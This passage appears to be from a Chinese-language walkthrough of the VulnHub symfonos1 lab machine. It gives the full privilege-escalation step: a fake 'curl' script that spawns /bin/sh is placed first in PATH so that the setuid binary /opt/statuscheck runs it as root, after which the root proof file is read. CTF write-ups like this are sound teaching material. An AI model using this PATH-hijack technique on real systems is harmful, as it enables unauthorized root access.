 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos1/23.png)

看上去是使用 curl 访问本地网页, `curl -I http://localhost`

这里可以写一个自定义的 curl 文件,让其提权
```
cd /tmp
echo $'#!/bin/sh\n/bin/sh' > curl
chmod +x curl
export PATH=$(pwd):$PATH
/opt/statuscheck
whoami
cd /root
ls
cat proof.txt
```
